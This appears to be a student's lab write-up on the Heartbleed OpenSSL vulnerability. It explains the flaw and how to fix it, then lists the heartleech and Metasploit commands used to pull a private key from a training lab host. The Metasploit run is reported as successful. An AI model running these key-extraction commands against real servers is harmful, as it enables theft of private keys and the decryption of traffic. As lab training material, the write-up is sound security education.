

# 3 Heartbleed

Heartbleed is a vulnerability in the OpenSSL library which is used for the SSL/TLS protocol. It allows to read the private key. 
https://heartbleed.com/

https://github.com/robertdavidgraham/heartleech

### answers

- Explain the security problem
    - due to a software error the private key of the certificate can be retrieved. Root cause seems to be memory corruption 
- Explain your attack (exploit, screenshot, hacking journal)
    - see below
- Explain mitigation (remedy)
    - upgrade the a version of the openSSL library that doesnt have this issue
    - Furthermore, replace certificates and revoke old ones as their private key might not be private anymore

### Heartleech

- `sudo apt-get install hl-heartleech` -> install tool "heartleech"
- `/opt/applic/heartleech/heartleech --scan heartbleed.vm.vuln.land --autopwn --threads 20`  (cd "/opt/applic/heartleech" and then executing the command doesnt work.. i guess the previously installed heartleech, which doesnt work would then be executed )

From my understanding, heartleech uses the heartbleed bug to get access to data in memory which could contain the private key. Within these bytes it a) looks for known patterns that indicate the private key (depends on the format) and b) performs calculations using the public key and the accessed data to find the private key. (see github)

Tried multiple (many) times.. result was always INCONCLUSIVE :-(

### Metasploit
1. start metasploit resource (exercise 2) and log in
2. Execute the commands
    - `msfconsole` > start metasploit
    - `use auxiliary/scanner/ssl/openssl_heartbleed` 
    - `set action KEYS`
    - `set RHOST heartbleed.vm.vuln.land` 
    - `set MAX_KEYTRIES 255` (as explained.. above 250 makes no sense)
    - `exploit`

Success: attack succeded. Private key starts with "MIICW"  (see screenshot)

### Screenshot

Shows both attacks: Heartleech (not successful) and Metasploit (successful)

